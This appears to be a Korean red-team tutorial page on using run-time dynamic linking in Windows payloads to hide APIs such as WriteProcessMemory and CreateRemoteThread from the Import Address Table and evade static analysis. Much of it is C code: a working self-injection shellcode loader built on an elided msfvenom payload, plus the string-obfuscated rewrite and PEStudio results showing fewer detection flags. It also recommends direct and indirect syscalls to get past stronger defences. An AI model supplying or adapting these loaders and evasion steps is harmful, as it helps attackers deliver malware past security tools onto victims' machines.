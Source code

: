 # 런타임 다이나믹 링킹 (Run-time Dynamic Linking)

PE 파일 구조에서 Import Address Table (IAT)는 해당 파일이 사용하는 DLL의 exported 함수 포인터들을 기록해놓은 부분이다. IAT는 PE 파일 실행시 윈도우 로더 (Windows Loader) 가 PE파일을 메모리에 로드하며 해당 파일이 사용하는 DLL과 exported 함수들을 같이 맵핑 하기 위해 사용된다.

페이로드 제작시 대부분의 윈도우 API들은 직접/간접 시스템 콜을 사용하기 때문에 IAT에 수상한 윈도우 API 함수가 기록될 일은 없다. 하지만 항상 직접/간접 시스템 콜을 사용할 수 있는 것도 아니고, 가끔씩 순정 윈도우 API를 페이로드에 사용해야만 할 때가 있다. 이때 IAT에 수상한 윈도우 API(`WriteProcessMemory`, `CreateRemoteThreadEx` , 등)들이 기록되어 있다면 정적 분석에 걸리게 된다.

Run-time Dynamic Linking (런타임 다이나믹 링킹) 은 런타임 중 동적으로 DLL에서 exported 함수를 로드해 사용하는 기법이다. 이 기법을 사용하면 IAT에 수상한 윈도우 API들이 기록되지 않기 때문에 정적 분석을 통과할 확률이 높아진다. 물론 여전히 윈도우 API를 사용하는 것이고, 시스템 콜을 사용하는 것이 아니기 때문에 유저랜드 후킹이나 다른 방어 기법들에 걸리게 된다. 따라서 런타임 다이나믹 링킹은 최소한의 방어 우회 기법이다 정도로만 생각해야한다.

### 코드

런타임 다이나믹 링킹의 코드는 다음과 같은 형태로 이루어져있다.

```
// 윈도우 API 함수 포인터 구조체 생성 
typedef LPVOID(WINAPI* _VirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);

// 필요한 문자열 unsigned char 형태로 저장 
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };
unsigned char sVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c',0x0 };

// 런타임 중 DLL의 모듈 핸들을 구한 뒤 exported 함수의 핸들을 구함. 그 뒤 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환)
_VirtualAlloc pVirtualAlloc = (_VirtualAlloc)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sVirtualAlloc));

... 

// 4. 이제부터 VirtualAlloc 대신 pVirtualAlloc 을 사용 
```

1. 윈도우 API 함수와 동일한 인자 및 반환을 하는 함수 포인터 (`WINAPI*`) 구조체를 생성한다.
2. 그 뒤, 필요한 문자열을 `unsigned char` 형태로 저장한다. 예를 들어 DLL의 이름인 `kernel32.dll / ntdll.dll` 이나 exported 함수 이름인 `VirtualAlloc, WriteProcessMemory, MiniDumpWriteDump` 등이다.
3. `GetModuleHandleA` 와 DLL 이름 문자열을 이용해 모듈의 핸들을 얻는다. 그 뒤, 모듈의 핸들과 exported 함수 이름을 `GetProcAddress` 함수에다 집어넣어 함수 포인터를 얻는다.
4. 이 함수 포인터를 #1 번에서 만들어 놨던 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환) 한다.
5. 이제부터 해당 윈도우 API 함수를 사용하고 싶다면, #4번에서 만든 함수 포인터를 사용하면 된다.

\#3 \~ #4 번에서 런타임 중 `GetModuleHandleA` 와 `GetProcAddress` 함수가 실행되며 함수 포인터를 획득하고, 이를 윈도우 API 함수 포인터 구조체로 캐스팅하게 된다. 즉, 정적인 PE 파일 상태에서의 IAT에는 아무것도 없고, 오로지 파일이 실행돼 메모리에 로드 되고 런타임에 들어갔을 때 사용하고자 하는 윈도우 API를 함수 포인터 형태로 사용할 수 있게 된다.

### 실습

먼저 런타임 다이나믹 링킹이 적용되지 않은 간단한 셀프 인젝션 코드를 살펴본다.

```
#include <iostream>
#include <windows.h>

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" -f c
	unsigned char buf[] = < ... 쉘코드 ... >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}
	
	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

컴파일 후 PEStudio 로 해당 파일을 살펴보면 IAT에 수상한 윈도우 API인 `WriteProcessMemory` 와 `CreateRemoteThread` 가 보인다. "Flag" 도 총 6개로, 수상한 윈도우 API 6개가 IAT에 기록되어 있다는 것을 보여준다.&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

이제 런타임 다이나믹 링킹을 적용해보자. `WriteProcessMemory` 와 `CreateRemoteThread` 에 적용한 뒤, 다시 컴파일을 한다.

```
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };

typedef BOOL(WINAPI* _WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
unsigned char sWriteProcessMemory[] = { 'W','r','i','t','e','P','r','o','c','e','s','s','M','e','m','o','r','y',0x0 };
_WriteProcessMemory pWriteProcessMemory = (_WriteProcessMemory)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sWriteProcessMemory));

typedef HANDLE(WINAPI* _CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
unsigned char sCreateRemoteThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0x0 };
_CreateRemoteThread pCreateRemoteThread = (_CreateRemoteThread)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sCreateRemoteThread));

[ ... 나머지 코드 동일 ... ]
```

다시 PEStudio 로 살펴보면, IAT 에서 `WriteProcessMemory` 와 `CreateRemoteThread` 가 더이상 보이지 않는다. "Flag" 도 6개에서 4개로 줄었다.&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

런타임 다이나믹 링킹은 간단한 정적 분석을 우회하기 위한 용도로만 사용되야한다. 중요한 윈도우 API의 경우 직접/간접 시스템 콜을 이용하거나 수동적 맵핑을 이용한 방법을 사용하도록 한다. 별로 중요하지 않지만 자주 사용되고, 직/간접 시스템 콜을 사용할 수 없는 윈도우 API (`Process32Next` 등)의 경우, 런타임 다이나믹 링킹을 적용하면 IAT 목록을 수상하지 않게 만들 수 있다.&#x20;

### References

{% embed url="https://0xrick.github.io/win-internals/pe6" %}

{% embed url="https://vanmieghem.io/blueprint-for-evading-edr-in-2022" %}
